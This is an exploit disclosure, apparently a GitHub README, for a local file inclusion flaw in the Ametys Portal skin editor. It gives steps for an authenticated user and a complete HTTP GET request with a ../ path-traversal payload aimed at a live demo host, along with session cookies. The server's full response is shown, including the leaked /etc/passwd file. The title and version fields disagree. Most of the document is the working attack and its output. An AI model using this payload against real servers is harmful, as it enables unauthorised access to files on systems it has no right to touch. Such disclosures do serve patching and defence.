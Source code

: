 ## Exploit Title: Ametys Portal 4.4 - Local File Inclusion

- **Date:** 05.08.2025
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [Ametys Portal](https://www.ametys.org)
- **Software Link:** [Ametys Portal 4.4](https://www.ametys.org/community/en/download/ametys-portal/ametys-portal-4.html)
- **Version:** 1.6.1

![Ametys Portal 4.4](https://raw.githubusercontent.com/capture0x/Ametys-LFI/refs/heads/main/ametys.png)

### POC:

#### Exploit working with manager , webmaster and admin cred 
1. Login with webmaster cred 
2. Click Skin Editor > Resources > Img > any image file
> https://demo.ametys.org/cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo
4. Catch to request with burp suite , change path with lfi payload 

### Request:

```http
GET /cms/plugins/skineditor/file/download?path=../../../../../../../../../../../../../../../../etc/passwd&skinName=demo HTTP/1.1
Host: demo.ametys.org
Cookie: JSESSIONID=3F87581AEF2EC304640A09D7094D98EE; AmetysAuthentication=YW1ldHlzX2RlbW9fdXNlcnMjd2VibWFzdGVyI05ycnY0RlVPeXgwcENOVEk; tarteaucitron=!gajs=false!matomocloud=false!googlemaps=false!gagenda=false!sharethis=false!dailymotion=false!youtube=false!youtubeplaylist=false; JSESSIONID=DC788DBC176BFB0787DA25FC2C93CE63; _pk_id.2.afd3=4f757134bce0bed6.1754326045.; _ga_2VTM1RYFX8=GS2.1.s1754331048$o1$g1$t1754331054$j54$l0$h0; JSESSIONID-Ametys=719D9B1BA49FE4046DFB966F28FBB385
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://demo.ametys.org/cms/www/index.html
Dnt: 1
Sec-Gpc: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
### Response:

```
HTTP/1.1 200 
Date: Tue, 05 Aug 2025 11:54:47 GMT
Server: Apache
Content-Security-Policy: default-src 'self' https: data: 'unsafe-inline' 'unsafe-eval'; img-src 'self' https: data: blob: 'unsafe-inline' 'unsafe-eval'; frame-src 'self' https: data: ms-word: ms-powerpoint: ms-excel: ms-visio: ms-access: ms-project: ms-publisher: ms-infopath: vnd.libreoffice.command: ; frame-ancestors 'self' http: https: ; connect-src 'self' https: data: 'unsafe-inline' 'unsafe-eval' wss:
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Permissions-Policy: accelerometer=(), autoplay=*, battery=(), camera=(), cross-origin-isolated=(), display-capture=(), document-domain=(), encrypted-media=(), execution-while-not-rendered=(), execution-while-out-of-viewport=(), fullscreen=*, geolocation=(), gyroscope=(), magnetometer=(), microphone=(), midi=(), navigation-override=(), payment=(), picture-in-picture=(), publickey-credentials-get=(), screen-wake-lock=(), usb=(), web-share=(), xr-spatial-tracking=()
X-Cocoon-Version: 2.1.13
Content-Disposition: attachment; filename="passwd"
Content-Length: 2247
Cache-Control: max-age=1
Expires: Tue, 05 Aug 2025 11:54:48 GMT
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Language: fr

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sssd:x:112:119:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
tomcat:x:997:997:Apache Tomcat:/:/usr/sbin/nologin
cms:x:1001:1000::/home/cms:/bin/bash
postfix:x:113:121::/var/spool/postfix:/usr/sbin/nologin
glouton:x:996:998:Glouton daemon:/var/lib/glouton:/sbin/nologin
_rpc:x:114:65534::/run/rpcbind:/usr/sbin/nologin
fwupd-refresh:x:115:123:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:116:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dhcpcd:x:117:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
polkitd:x:995:995:User for polkitd:/:/usr/sbin/nologin

```

### Video

![Ametys Poc Video](https://github.com/capture0x/Ametys-LFI/raw/refs/heads/main/ametys.mp4)
